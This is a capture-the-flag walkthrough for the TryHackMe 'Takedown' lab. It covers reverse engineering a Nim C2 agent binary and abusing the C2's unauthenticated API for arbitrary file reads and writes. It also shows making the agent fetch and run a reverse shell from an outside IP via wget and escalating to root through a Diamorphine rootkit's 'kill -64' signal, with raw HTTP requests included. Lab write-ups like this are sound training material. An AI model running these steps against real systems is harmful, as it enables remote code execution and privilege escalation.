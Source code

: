 # Takedown

https://tryhackme.com/room/takedown

Rated "INSANE"

This room has several parts: 

- finding a c2 agent binary on the webserver
- reverse engineering the binary to work out how to communicate with the c2
- asking the c2 to run commands on the webserver, getting a reverse shell
- leveraging a local kernel exploit to get root.

The reverse engineering is probably the longest bit, as its a nim binary and comes out as a bit of a mess in ghidra, but its not too bad.

1. The server exposes ports 22 and 80. On 80 is an 'infinity' website, just basic brochureware. Under /images is a file called shutterbug.jpg.bak which when downloaded is revealed to be a ELF64 binary. Additionally, the favicon.ico on the site is a windows binary - these are the same binary compiled for different architectures.
2. Opening whichever binary in Ghidra, it can be seen they are Nim binaries with the main function being NimMainModule.

Reverse engineering is a slow process - work out what something does, renaming variables and globals as you go to keep track. In brief the binary follows these steps:

- checks command line options: there are just two, -h and -v. -v enables verbose mode which will print out info messages
- checks the current username by running 'whoami'. If it is not the hardcoded value 'c.oberst', the process exits
- registers with the c2 server using a randomly generated UID and the current hostname.
- polls the c2 server's command endpoint for commands to run

The commands it runs are upload (download a file from the c2 server to a local directory), download (upload a file to the c2 server), id, pwd, whoami, hostname, and exec which runs a command on the client server.

The command polling, running upload and download etc all involve calling the c2 server - the request must use a specific user agent, and use a registered 'agent' uid, but otherwise there is no auth or encryption. Since these calls can be made just over HTTP, the binary (and the keyed username c.oberst) are not required. HTTP request samples are below in an appendix.

Using the 'upload' call, its possible to read arbitrary local files on the c2 server. Using this and reading /proc/N/cmdline, (N being a number from 0 to whatever) its possible to find the commandline used to run the c2 server, which reveals the python file. This can then be read to get the full source code of the API and work out what can be done.

From this, the agent UID of the running agent on the webserver can be found. It can also be discovered that posting to /api/agents/webserver-uid/command allows specifying a command the agent should run next. This can be used to compel the webserver to download a reverse shell binary and then run it, which will get you a shell on the webserver and the user flag.

The final step to get root is a little tricky - the machine is hardened so nothing obvious will stand out. The intended path (its possible subsequent linux exploit bugs will also work) involves discovering that /dev/shm, a directory that is usually empty, in fact contains the cloned source code of the [diamor](https://github.com/m0nad/Diamorphine) kernel rootkit, implying this is installed. THis makes root privesc easy: simply send the 64 signal to any process, e.g. by finding a random process id and then executing `kill -64 pid`. This will instantly make the current user (webadmin-lowpriv) a root user, and you can get the final flag.

## Example Web Requests to the C2 Server.

The key to all of these is the 'keyed' user agent, which must be present or the request will be rejected.

Registering a new agent:

```
POST /api/agents/register HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 43

{"uid":"fakeuid","hostname":"fakehost"}
```

Reading commands to invoke from the c2 (not necessary for walkthrough):

```
GET /api/agents/fakeuid/command HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
```

Reading arbitrary files on the c2:

```
POST /api/agents/fakeuid/upload HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 22

{"file":"bar.txt"}

```

Writing arbitrary files on the c2 (not necessary for walkthrough):

```
POST /api/agents/fakeuid/download HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 45

{"file":"test.txt",
"data":"test"
}
```

asking the webserver agent to download a revshell:

```
POST /api/agents/bmir-lkoz-mxkk-apfq/exec HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 48

{"cmd":"exec wget 10.10.18.252:1234/client"}


```

exec is one of the c2 commands that invokes a system shell execute. the result is not returned. invoking the revshell above was done with `exec chmod +x client && ./client`.
